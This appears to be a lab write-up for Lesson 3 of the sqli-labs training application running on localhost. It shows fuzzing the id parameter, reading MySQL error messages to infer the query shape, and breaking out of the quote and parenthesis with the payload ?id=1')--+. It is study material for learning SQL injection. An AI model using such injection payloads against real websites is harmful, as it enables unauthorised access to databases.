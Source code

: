 #### 3. Lesson 3 - ``GET - Error based - Single Quote with twist - String``

###### Fuzzing

```
http://127.0.0.1/sqli-labs/Less-3/
http://127.0.0.1/sqli-labs/Less-3/?id=1
http://127.0.0.1/sqli-labs/Less-3/?id=1'
```

![](images/3/1.png)

![](images/3/2.png)

![](images/3/3.png)

###### Vulnerability Breakdown

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1
```

```
'1'') LIMIT 0,1' at line 1
'     1'    ') LIMIT 0,1         '
```

```
http://127.0.0.1/sqli-labs/Less-3/?id=1\
```

![](images/3/4.png)

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1\') LIMIT 0,1' at line 1
```

```
''1\') LIMIT 0,1' at line 1
''1\') LIMIT 0,1'
'   '1\') LIMIT 0,1   '
```

```sql
select login_name, password from table where id=('our_input')
```

###### Fix the query

```
http://127.0.0.1/sqli-labs/Less-3/?id=1')--+
```

![](images/3/5.png)